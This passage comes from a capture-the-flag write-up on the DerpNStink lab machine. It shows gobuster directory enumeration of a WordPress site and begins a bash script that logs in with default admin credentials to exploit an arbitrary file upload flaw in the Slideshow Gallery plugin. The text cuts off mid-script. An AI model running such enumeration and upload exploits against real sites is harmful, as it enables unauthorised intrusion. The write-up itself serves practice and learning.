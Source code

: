 ```
http://192.168.10.130/javascript (Status: 301)
http://192.168.10.130/temporary (Status: 301)
=====================================================
```

Both `/php` and `/temporary` were already listed in `robots.txt`.

Using `gobuster` and `common.txt` from [SecLists](https://github.com/danielmiessler/SecLists), I found more directories.

```
http://192.168.10.130/php/info.php (Status: 200)
http://192.168.10.130/php/phpmyadmin (Status: 301)
http://192.168.10.130/weblog/index.php (Status: 200)
http://192.168.10.130/weblog/wp-admin (Status: 301)
http://192.168.10.130/weblog/wp-content (Status: 301)
http://192.168.10.130/weblog/wp-includes (Status: 301)
```

It appeared that `/weblog` is the root directory for WordPress. As such, there is a need to place the FQDN in my hosts file as shown here.

```
curl -i 192.168.10.130/weblog/
HTTP/1.1 301 Moved Permanently
Date: Tue, 27 Mar 2018 10:13:50 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.22
X-Pingback: http://derpnstink.local/weblog/xmlrpc.php
Location: http://derpnstink.local/weblog/
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```
There was also another hint from `/webnotes/info.txt` to do likewise.

```
<-- @stinky, make sure to update your hosts file with local dns so the new derpnstink blog can be reached before it goes live -->
```

### Slideshow Gallery < 1.4.7 Arbitrary File Upload

Using `wpscan` to enumerate vulnerable WordPress plugins, this particular version (1.4.6) had an arbitrary file upload [vulnerability](https://www.exploit-db.com/exploits/34514/).

I wrote `upload.sh`, a `bash` script to upload files based on the vulnerability.

{% highlight bash linenos %}
#!/bin/bash

HOST=derpnstink.local
BLOG=weblog
USER=admin
PASS=$USER
VULN="wp-admin/admin.php?page=slideshow-slides&method=save"
FILE=$1

# authenticate
curl \
    -s \
    -c cookie \
    -d "log=$USER&pwd=$PASS&wp-submit=Log" \
    http://$HOST/$BLOG/wp-login.php

# exploit
curl \